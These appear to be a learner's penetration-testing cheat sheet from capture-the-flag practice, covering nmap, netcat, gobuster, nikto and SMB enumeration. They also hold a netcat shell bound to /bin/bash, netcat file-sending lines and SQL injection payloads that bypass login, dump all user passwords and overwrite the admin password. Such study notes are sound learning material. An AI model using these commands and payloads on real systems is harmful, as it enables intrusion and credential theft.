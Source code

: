 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

**SMB enumeration with enum4linux**
enum4linux -a 10.10.10.10 -> for all info
enum4linux -U 10.10.10.10. | tee text.txt 
(tee - to write output in file)
for other SMB enumeration
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

smbclient -L 10.10.107.105
smbclient //10.10.107.105/guest

**SCP**
securely copy files and directories between two locations.
ex- 
*scp /opt/linPEAS/linepeas.sh janith@10.10.100.180:/dev/shm*
/dev/shm - temporary file storage files system that uses RAM for the storage

__analysing image__
strings image.jpg
exiftool image.jpg
eog image.jpg
binwalk -e image.png- > -e extract the attacked zip or executable

__steghide__
steghide --embed -ef textfile -cf image -p password

# __SQL injection__
1 OR 1=1-- -
ex- WHERE profileID=1 OR 1=1-- - AND password = '18ee24150dc

' OR 1=1-- -
WHERE profileID = 'g' OR 1=1-- -' AND password = '043

URL injection
/sesqli3/login?profileID=' OR 1=1-- -&password=g

SQL update
inject code (field2',nickName='hack1',email='hack2)
UPDATE usertable SET nickName='field1',email='field2',nickName='hack1',email='hack2' WHERE UID='1'
_finding version of databases_
 MySQL and MSSQL
',nickName=@@version,email='
 For Oracle
',nickName=(SELECT banner FROM v$version),email='
 For SQLite
',nickName=sqlite_version(),email='

#find tables
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
#extract_colomnNames_fromTables
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
#extract_data_From_table
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
#can update admin password using this
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

#hash-identifier can be used to identify hash values

' UNION SELECT 1,2-- -
SELECT id, username FROM users WHERE username = '' union select 1,2-- -' AND password = 's'

dump the password from table
' UNION SELECT 1, password from users-- -
this will dump all passwords
' UNION SELECT 1,group_concat(password) FROM users-- -












